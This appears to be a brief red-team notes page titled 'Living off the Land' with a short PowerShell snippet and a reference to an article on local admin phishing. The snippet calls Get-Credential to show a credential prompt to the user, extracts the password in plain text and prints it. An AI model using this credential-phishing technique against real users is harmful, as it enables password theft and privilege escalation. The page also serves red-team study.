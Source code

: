 # Living off the Land

```powershell
# Prompt the user for credentials
$credential = Get-Credential

# Extract the username and password from the credential
$username = $credential.UserName
$password = $credential.GetNetworkCredential().Password

# Output the credentials
Write-Host "Username: $username"
Write-Host "Password: $password"
```

---
## References

- [Assume Breach: Home-Grown Red Team - Local Admin Phishing For Privilege and Persistence](https://assume-breach.medium.com/home-grown-red-team-local-admin-phishing-for-privilege-and-persistence-63a0e3af3994)